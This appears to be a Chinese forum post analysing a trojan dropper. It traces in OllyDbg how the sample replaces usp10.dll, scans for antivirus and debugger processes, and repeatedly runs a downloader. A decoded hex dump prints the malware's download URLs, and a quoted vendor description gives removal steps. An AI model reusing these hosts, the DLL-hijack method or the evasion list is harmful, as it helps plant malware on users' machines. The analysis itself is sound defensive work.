003E0030  3C 7B 7C 7B 00 51 51 51 51 51 51 7A 66 66 62 28  <{|{.QQQQQQzffb(  
003E0040  3D 3D 65 65 65 3C 63 71 7F 7F 7A 3C 71 7D 7F 3D  ==eee<cqz<q}=  
003E0050  75 77 66 3C 73 61 62 00 44 44 44 44 44 44 23 3C  uwf<sab.DDDDDD#<  
003E0060  20 26 00 00 00 00 00 00 00 00 00 00 00 00 00 00   &..............  
003E0070  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................  
  
然后 XOR 后出现惊人一目：  
003E0000  4F 4F 4F 4F 4F 4F 68 74 74 70 3A 2F 2F 77 77 77  OOOOOOhttp://www  
003E0010  2E 6E 68 69 72 79 2E 63 6F 6D 2F 33 2E 74 78 74  .nhiry.com/3.txt  
003E0020  7C 43 3A 5C 57 49 4E 44 4F 57 53 5C 62 6F 6F 74  |C:\\WINDOWS\\boot  
003E0030  2E 69 6E 69 00 43 43 43 43 43 43 68 74 74 70 3A  .ini.CCCCCChttp:  
003E0040  2F 2F 77 77 77 2E 71 63 6D 6D 68 2E 63 6F 6D 2F  //www.qcmmh.com/  
003E0050  67 65 74 2E 61 73 70 00 56 56 56 56 56 56 31 2E  get.asp.VVVVVV1.  
003E0060  32 34 00 00 00 00 00 00 00 00 00 00 00 00 00 00  24..............  
003E0070  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................  
  
systemdebug.exe 的功能不言而喻了。。。  
  
至于 lqcyc52.cyc 是干什么用的，下次有时间我在分析分析,附上互联网上对这病毒的描述:  

代码:

```
病毒释放者程序

Trojan-Dropper.Win32.Agent.arnz

捕获时间

2011-02-04

危害等级

中

病毒症状

  该样本是使用“C/C ”编写的木马程序，采用"upx"加壳方式试图躲避特征码扫描,加壳后长度为“49,456”字节，图标为“”，病毒扩展名为“exe”，主要通过“文件捆绑”、“下载器下载”、“网页挂马”等方式传播，病毒主要目的是释放病毒到本机运行。
　　用户中毒后，会出现系统运行缓慢、存在大量未知可疑进程、系统重要资料丢失等现象。

感染对象

Windows 2000/Windows XP/Windows 2003/Windows Vista/ Windows 7

传播途径

文件捆绑、网页挂马、下载器下载

防范措施
五度交流网提醒您：安装正版杀毒软件，每天坚持更新杀毒软件的病毒库。安装正版防火墙，阻止病毒的入侵。定期全盘杀毒，不浏览危险网站，不下载安装运行危险程序。不随意打开未知的 u 盘，光盘等。定期做好系统的备份和重要资料的备份，以免造成损失！
手动解决办法：

1.手动删除以下文件：

%SystemRoot%\\system32\\lqcyc52.cyc(随机命名)
%SystemRoot%\\system32\\cybkus10.dll

2.用正常文件替换%SystemRoot%\\system32\\usp10.dll

3.清空临时文件夹，并进行全盘杀毒。


变量声明：

　　%SystemDriver%　　　　　　　系统所在分区，通常为“C:\\”
　　%SystemRoot%　　　　　　　　WINDODWS 所在目录，通常为“C:\\Windows”
　　%Documents and Settings%　　用户文档目录，通常为“C:\\Documents and Settings”
　　%Temp%　　　　　　　　　　　临时文件夹，通常为“C:\\Documents and Settings\\当前用户名称\\Local Settings\\Temp”
　　%ProgramFiles%　　　　　　　系统程序默认安装目录，通常为：“C:\\ProgramFiles” 

病毒分析

1.该样本运行后，获取系统路径。
2.释放动态链接库 lqcyc52.cyc(随机命名)、可执行文件 taskngr.exe 到%SystemRoot%\\system32 文件夹下。
3.利用模拟键盘动作在运行栏输入"taskngr" lqcyc52.cyc，用于加载动态链接库 lqcyc52.cyc。
4.加载成功动态链接库 lqcyc52.cyc 之后，删除 taskngr.exe 文件。
5.释放可执行文件 systemdebug.exe 到%SystemRoot%文件夹下，并运行该可执行文件。
6.在临时文件夹下创建批处理文件 test.bat，并运行该批处理文件用以删除病毒源文件。
7.动态链接库 lqcyc52.cyc 被加载后，删除%SystemRoot%\\system32\\dllcache\\usp10.dll。
8.重命名系统文件%SystemRoot%\\system32\\usp10.dll 为 cybkus10.dll，将 lqcyc52.cyc 文件更名为 usp10.dll。
9.查询以下注册表项，用于获取杀软路径：
HKEY\_LOCAL\_MACHINE\\Software\\360Safe\\menuext\\LiveUpdate360
名称：Application
10.成功获取路径之后，复制被替换的系统文件 usp10.dll 到杀软目录下。
11.判断自身所加载的进程，若为杀软相关进程则结束自身。
12.Systemdebug.exe 运行后，连接黑客指定网址，下载大量病毒到本地临时文件夹下，并运行。

病毒创建文件：

%SystemRoot%\\system32\\lqcyc52.cyc(随机命名)
%SystemRoot%\\system32\\taskngr.exe
%SystemRoot%\\system32\\cybkus10.dll

病毒删除文件：

%SystemRoot%\\system32\\taskngr.exe
%SystemRoot%\\system32\\dllcache\\usp10.dll

```

上传的附件
|  || 我的照片.rar  
 |

先把 lqcyc52.cyc 改成 lqcyc52.cyc.dll 然后用 OD 载入，也是 UPX 壳，用 ESP 定律就可脱去，这里不在描述。  
10001550   /E9 4C660000     jmp     10007BA1                         ; 这里好像就是 OEP，我了个去，又是 VM？  
10001555   |897424 24       mov     dword ptr \[esp+24\], esi  
10001559   |E8 DE5B0000     call    1000713C  
1000155E   |FF3424          push    dword ptr \[esp\]  
10001561   |8D6424 30       lea     esp, dword ptr \[esp+30\]  
10001565   |0F8A 78640000   jpe     100079E3  
1000156B   |60              pushad  
1000156C   |9C              pushfd  
1000156D   |8F4424 1C       pop     dword ptr \[esp+1C\]  
10001571   |9C              pushfd  
10001572   |60              pushad  
10001573   |E9 E75B0000     jmp     1000715F  
10001578   |FF7424 24       push    dword ptr \[esp+24\]  
1000157C   |8F45 00         pop     dword ptr \[ebp\]  
1000157F   |68 155350ED     push    ED505315  
10001584   |C60424 07       mov     byte ptr \[esp\], 7  
10001588   |881424          mov     byte ptr \[esp\], dl  
1000158B   |8D6424 2C       lea     esp, dword ptr \[esp+2C\]  
1000158F   |E9 91570000     jmp     10006D25  
10001594   |66:890424       mov     word ptr \[esp\], ax  
10001598   |895424 38       mov     dword ptr \[esp+38\], edx  
1000159C   |66:891424       mov     word ptr \[esp\], dx  
100015A0   |8D6424 38       lea     esp, dword ptr \[esp+38\]  
100015A4   |E9 903A0000     jmp     10005039  
100015A9   |F4              hlt  
100015AA   |C6              ???                                      ; 未知命令  
... ...  
用上次的办法，先单步，直到找到一个 API，。。。有点不耐烦了，所以换一种方式，把所有载入的库 .text 下断，然后按 Ctrl+f7：  
  
就在调试了十几分钟，我快要放弃这个方法的时候，终于断下来了~~  
  
退一步，看到 VM 调用 API 的地方，下硬件执行  
10006A2C    8B4C24 2C       mov     ecx, dword ptr \[esp+2C\]  
10006A30    9C              pushfd  
10006A31    68 5AA1D966     push    66D9A15A  
10006A36    FF7424 38       push    dword ptr \[esp+38\]  
10006A3A    C2 3C00         retn    3C                               ; VM 调用 API 的地方，下硬件执行  
然后分析他调用了哪些 APIL：  
  
0006F690   100096A0  /CALL 到 GetModuleHandleA  
0006F694   10002150  \\pModule = "EXPLORER.EXE"  
  
0006F690   1000B6E2  /CALL 到 GetModuleHandleA ；会连续调用两次，如果第一次就找到会执行真正目的！  
0006F694   10002160  \\pModule = "lqcyc52.cyc"  
  
  
0006F690   1000B6E2  /CALL 到 GetModuleHandleA ；如果是第 2 次调用才成功，会用下面的方式搜索有多少杀毒软件  
0006F694   10002160  \\pModule = "lqcyc52.cyc" ；因为我把 lqcyc52.cyc 改成了 DLL，所以要修改下这个数据  
  
10002160  6C 71 63 79 63 35 32 2E 63 79 63                 lqcyc52.cyc  
  
10002160  6C 71 63 79 63 35 32 2E 63 79 63 2E 64 6C 6C 00  lqcyc52.cyc.dll.  
  
**后来发现下面一系列的 GetModuleHandleA 是判断是不是被这些进程载入了**0006F68C   1000B6A3  /CALL 到 GetModuleHandleA  
0006F690   10003038  \\pModule = "dep360.exe"   
  
0006F68C   1000B6A3  /CALL 到 GetModuleHandleA  
0006F690   1000304C  \\pModule = "360sd.exe"  
  
0006F68C   1000B6A3  /CALL 到 GetModuleHandleA  
0006F690   10003060  \\pModule = "360rp.exe"  
  
0006F68C   1000B6A3  /CALL 到 GetModuleHandleA  
0006F690   10003074  \\pModule = "360Safe.exe"  
  
0006F68C   1000B6A3  /CALL 到 GetModuleHandleA  
0006F690   10003088  \\pModule = "DSMain.exe"  
  
0006F68C   1000B6A3  /CALL 到 GetModuleHandleA  
0006F690   1000309C  \\pModule = "ZhuDongFangYu.exe"  
  
0006F68C   1000B6A3  /CALL 到 GetModuleHandleA  
0006F690   100030B0  \\pModule = "360tray.exe"  
  
0006F68C   1000B6A3  /CALL 到 GetModuleHandleA  
0006F690   100030C4  \\pModule = "360WDMain.exe"  
  
0006F68C   1000B6A3  /CALL 到 GetModuleHandleA  
0006F690   100030D8  \\pModule = "360realpro.exe"  
  
0006F68C   1000B6A3  /CALL 到 GetModuleHandleA  
0006F690   100030EC  \\pModule = "RsMain.exe"  
  
0006F68C   1000B6A3  /CALL 到 GetModuleHandleA  
0006F690   10003100  \\pModule = "RsTray.exe"  
  
0006F68C   1000B6A3  /CALL 到 GetModuleHandleA  
0006F690   10003114  \\pModule = "RavMonD.exe"  
  
0006F68C   1000B6A3  /CALL 到 GetModuleHandleA  
0006F690   10003128  \\pModule = "kav32.exe"  
  
0006F68C   1000B6A3  /CALL 到 GetModuleHandleA  
0006F690   1000313C  \\pModule = "kavstart.exe"  
  
0006F68C   1000B6A3  /CALL 到 GetModuleHandleA  
0006F690   10003150  \\pModule = "liveupdate360.exe"  
  
0006F68C   1000B6A3  /CALL 到 GetModuleHandleA  
0006F690   10003164  \\pModule = "egui.exe"  
  
  
看下到底要查多少进程：  
10003034  00 00 00 00 64 65 70 33 36 30 2E 65 78 65 00 00  ....dep360.exe..  
10003044  00 00 00 00 00 00 00 00 33 36 30 73 64 2E 65 78  ........360sd.ex  
10003054  65 00 00 00 00 00 00 00 00 00 00 00 33 36 30 72  e...........360r  
10003064  70 2E 65 78 65 00 00 00 00 00 00 00 00 00 00 00  p.exe...........  
10003074  33 36 30 53 61 66 65 2E 65 78 65 00 00 00 00 00  360Safe.exe.....  
10003084  00 00 00 00 44 53 4D 61 69 6E 2E 65 78 65 00 00  ....DSMain.exe..  
10003094  00 00 00 00 00 00 00 00 5A 68 75 44 6F 6E 67 46  ........ZhuDongF  
100030A4  61 6E 67 59 75 2E 65 78 65 00 00 00 33 36 30 74  angYu.exe...360t  
100030B4  72 61 79 2E 65 78 65 00 00 00 00 00 00 00 00 00  ray.exe.........  
100030C4  33 36 30 57 44 4D 61 69 6E 2E 65 78 65 00 00 00  360WDMain.exe...  
100030D4  00 00 00 00 33 36 30 72 65 61 6C 70 72 6F 2E 65  ....360realpro.e  
100030E4  78 65 00 00 00 00 00 00 52 73 4D 61 69 6E 2E 65  xe......RsMain.e  
100030F4  78 65 00 00 00 00 00 00 00 00 00 00 52 73 54 72  xe..........RsTr  
10003104  61 79 2E 65 78 65 00 00 00 00 00 00 00 00 00 00  ay.exe..........  
10003114  52 61 76 4D 6F 6E 44 2E 65 78 65 00 00 00 00 00  RavMonD.exe.....  
10003124  00 00 00 00 6B 61 76 33 32 2E 65 78 65 00 00 00  ....kav32.exe...  
10003134  00 00 00 00 00 00 00 00 6B 61 76 73 74 61 72 74  ........kavstart  
10003144  2E 65 78 65 00 00 00 00 00 00 00 00 6C 69 76 65  .exe........live  
10003154  75 70 64 61 74 65 33 36 30 2E 65 78 65 00 00 00  update360.exe...  
10003164  65 67 75 69 2E 65 78 65 00 00 00 00 00 00 00 00  egui.exe........  
10003174  00 00 00 00 65 6B 72 6E 2E 65 78 65 00 00 00 00  ....ekrn.exe....  
10003184  00 00 00 00 00 00 00 00 6F 6C 6C 79 64 62 67 2E  ........ollydbg.  
10003194  65 78 65 00 00 00 00 00 00 00 00 00 4F 44 62 67  exe.........ODbg  
100031A4  53 63 72 69 70 74 2E 64 6C 6C 00 00 00 00 00 00  Script.dll......  
100031B4  4F 6C 6C 79 44 75 6D 70 2E 64 6C 6C 00 00 00 00  OllyDump.dll....  
100031C4  00 00 00 00 49 63 65 53 77 6F 72 64 2E 65 78 65  ....IceSword.exe  
100031D4  00 00 00 00 00 00 00 00 77 73 79 73 63 68 65 63  ........wsyschec  
100031E4  6B 2E 65 78 65 00 00 00 00 00 00 00 53 6E 69 70  k.exe.......Snip  
100031F4  65 53 77 6F 72 64 2E 65 78 65 00 00 00 00 00 00  eSword.exe......  
10003204  61 76 70 2E 65 78 65 00 00 00 00 00 00 00 00 00  avp.exe.........  
10003214  00 00 00 00 57 53 6F 63 6B 45 78 70 65 72 74 2E  ....WSockExpert.  
10003224  65 78 65 00 00 00 00 00 57 53 6F 63 6B 48 6F 6F  exe.....WSockHoo  
10003234  6B 2E 64 6C 6C 00 00 00 00 00 00 00 57 70 65 53  k.dll.......WpeS  
10003244  70 79 2E 64 6C 6C 00 00 00 00 00 00 00 00 00 00  py.dll..........  
10003254  6B 70 70 74 72 61 79 2E 65 78 65 00 00 00 00 00  kpptray.exe.....  
10003264  00 00 00 00 6B 70 70 6D 61 69 6E 2E 65 78 65 00  ....kppmain.exe.  
10003274  00 00 00 00 00 00 00 00 30 30 30 30 6B 73 64 65  ........0000ksde  
10003284  73 6B 2E 65 78 65 00 00 00 00 00 00 6B 70 70 73  sk.exe......kpps  
10003294  65 72 76 2E 65 78 65 00 00 00 00 00 00 00 00 00  erv.exe.........  
  
；＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝这里是真正目的  
0006F274   100095E9  /CALL 到 GetSystemDirectoryA  
0006F278   100036E0  |Buffer = lqcyc52\_.100036E0  
0006F27C   00000103  \\BufSize = 103 (259.)  
取出来后和“\\usp10.dll”连接  
100036E0  43 3A 5C 57 49 4E 44 4F 57 53 5C 73 79 73 74 65  C:\\WINDOWS\\syste  
100036F0  6D 33 32 5C 75 73 70 31 30 2E 64 6C 6C 00 00 00  m32\\usp10.dll...  
  
0006F274   10008A2F  /CALL 到 DeleteFileA ；删除。。。  
0006F278   0006F488  \\FileName = "C:\\WINDOWS\\system32\\dllcache\\usp10.dll"  
  
0006F270   1000892B  /CALL 到 MoveFileA ；这之后出现文件保护提示  
0006F274   100036E0  |ExistingName = "C:\\WINDOWS\\system32\\usp10.dll"  
0006F278   0006F384  \\NewName = "C:\\WINDOWS\\system32\\cybkus10.dll"  
  
0006F26C   10009072  /CALL 到 CopyFileA ；用 lqcyc52.cyc 代替 usp10.dll  
0006F270   0006F280  |ExistingFileName = "C:\\WINDOWS\\system32\\lqcyc52.cyc"  
0006F274   0006F488  |NewFileName = "C:\\WINDOWS\\system32\\dllcache\\usp10.dll"  
0006F278   00000001  \\FailIfExists = TRUE  
  
0006F26C   10007DED  /CALL 到 CopyFileA  
0006F270   0006F280  |ExistingFileName = "C:\\WINDOWS\\system32\\lqcyc52.cyc"  
0006F274   100036E0  |NewFileName = "C:\\WINDOWS\\system32\\usp10.dll"  
0006F278   00000001  \\FailIfExists = TRUE  
  
0006F274   10008238  /CALL 到 PathFileExistsA  
0006F278   0006F384  \\Path = "C:\\WINDOWS\\system32\\cybkus10.dll"  
  
0006F270   100096A5  /CALL 到 GetModuleHandleA  
0006F274   00000000  \\pModule = NULL  
  
0006F270   1000B0E1  /CALL 到 GetModuleFileNameA ；这里应该是想查看是谁调用的这个 DLL，保险其间我们把他改一下  
0006F274   00400000  |hModule = 00400000 (LOADDLL)  
0006F278   0006F58C  |PathBuffer = 0006F58C  
0006F27C   00000103  \\BufSize = 103 (259.)  
0006F58C  45 3A 5C B9 A4 BE DF CF E4 5C 4F 6C 6C 79 49 43  E:\\工具箱\\OllyIC  
0006F59C  45 5C 4C 4F 41 44 44 4C 4C 2E 45 58 45           E\\LOADDLL.EXE  
改成：  
0006F58C  43 3A 5C 57 49 4E 44 4F 57 53 5C 73 79 73 74 65  C:\\WINDOWS\\syste  
0006F59C  6D 33 32 5C 74 61 73 6B 6E 67 72 2E 65 78 65 00  m32\\taskngr.exe.  
  
0006F258   10008F6E  /CALL 到 RegOpenKeyExA  
0006F25C   80000002  |hKey = HKEY\_LOCAL\_MACHINE  
0006F260   10002080  |Subkey = "Software\\360Safe\\menuext\\LiveUpdate360"  
0006F264   00000000  |Reserved = 0  
0006F268   00020019  |Access = KEY\_READ  
0006F26C   0006F270  \\pHandle = 0006F270  
  
0006F254   10008059  /CALL 到 RegQueryValueExA  
0006F258   00000000  |hKey = 0  
0006F25C   100020A8  |ValueName = "Application"  
0006F260   00000000  |Reserved = NULL  
0006F264   0006F278  |pValueType = 0006F278  
0006F268   10003A60  |Buffer = lqcyc52\_.10003A60  
0006F26C   0006F274  \\pBufSize = 0006F274  
  
0006F268   100094AF  /CALL 到 RegCloseKey  
0006F26C   00000000  \\hKey = NULL  
  
0006F268   1000AD2D  /CALL 到 PathRemoveFileSpecA  
0006F26C   10003A60  \\Path = ""  
  
0006F274   1000BA8D  /CALL 到 WinExec  
0006F278   10003A60  |CmdLine = "\\SoftMgr\\SoftManager.exe"  
0006F27C   00000001  \\ShowState = SW\_SHOWNORMAL  
  
0006F690   1000A3A1  /CALL 到 ExitProcess  
0006F694   00000000  \\ExitCode = 0  
  
然后回想第一个调用  
0006F690   100096A0  /CALL 到 GetModuleHandleA  
0006F694   10002150  \\pModule = "EXPLORER.EXE"  
是什么用意？我们修改返回值，让他不为 0,然后在运行，发现过程有变：  
0006F67C   1000B395  /CALL 到 CreateThread  
0006F680   00000000  |pSecurity = NULL  
0006F684   00000000  |StackSize = 0  
0006F688   10001320  |ThreadFunction = usp10\_1.10001320  
0006F68C   00000000  |pThreadParm = NULL  
0006F690   00000000  |CreationFlags = 0  
0006F694   0006F6A4  \\pThreadId = 0006F6A4  
直接来看这个线程地址：  
10001320    81EC 08010000   sub     esp, 108                         ; 终于是没 VM 过的代码了。。  
10001326    A1 00300010     mov     eax, dword ptr \[10003000\]  
1000132B    33C4            xor     eax, esp  
1000132D    898424 04010000 mov     dword ptr \[esp+104\], eax  
10001334    53              push    ebx  
10001335    8B1D 50200010   mov     ebx, dword ptr \[10002050\]        ; kernel32.WinExec  
1000133B    56              push    esi  
1000133C    8B35 40200010   mov     esi, dword ptr \[10002040\]        ; kernel32.Sleep  
10001342    57              push    edi  
10001343    8B3D 48200010   mov     edi, dword ptr \[10002048\]        ; kernel32.GetWindowsDirectoryA  
10001349    8DA424 00000000 lea     esp, dword ptr \[esp\]  
10001350    68 D0070000     push    7D0  
10001355    FFD6            call    esi  
10001357    68 04010000     push    104  
1000135C    8D4424 10       lea     eax, dword ptr \[esp+10\]  
10001360    50              push    eax  
10001361    FFD7            call    edi  
10001363    8D4424 0C       lea     eax, dword ptr \[esp+C\]  
10001367    48              dec     eax  
10001368    8A48 01         mov     cl, byte ptr \[eax+1\]  
1000136B    40              inc     eax  
1000136C    84C9            test    cl, cl  
1000136E  ^ 75 F8           jnz     short 10001368  
10001370    8B0D F8200010   mov     ecx, dword ptr \[100020F8\] ；看下这里是什么数据  
100020F8  5C 73 79 73 74 65 6D 64 65 62 75 67 2E 65 78 65  \\systemdebug.exe  
10002108  00 00 00 00 52 69 73 69 6E 67 00 00 52 61 76 5C  ....Rising..Rav\\  
10002118  00 00 00 00 4B 69 6E 67 73 6F 66 74 00 00 00 00  ....Kingsoft....  
10002128  6B 69 6E 67 73 6F 66 74 00 00 00 00 4B 61 73 70  kingsoft....Kasp  
10002138  65 72 73 6B 79 00 00 00 4B 50 50 33 00 00 00 00  ersky...KPP3....  
10002148  6B 77 61 74 63 68 00 00 45 58 50 4C 4F 52 45 52  kwatch..EXPLORER  
10002158  2E 45 58 45 00 00 00 00 6C 71 63 79 63 35 32 2E  .EXE....lqcyc52.  
10002168  63 79 63 00 00 00 00 00 00 00 00 00 00 00 00 00  cyc.............  
  
.... ...  
  
1000139B    8D5424 10       lea     edx, dword ptr \[esp+10\]          ; C:\\WINDOWS\\systemdebug.exe  
1000139F    52              push    edx  
100013A0    8848 10         mov     byte ptr \[eax+10\], cl  
100013A3    FFD3            call    ebx                              ; kernel32.WinExec  
运行 systemdebug.exe 上面已经分析出 systemdebug.exe 是个下载者  
100013A5    68 00DD6D00     push    6DDD00                           ; 然后每过 7200000 毫秒重复上面的操作  
100013AA    FFD6            call    esi                              ; kernel32.Sleep  
  
  
lqcyc52.cyc 的功能是替换 usp10.dll，代替 usp10.dll 工作，如果被 explorer.exe 载入时运行 systemdebug.exe  
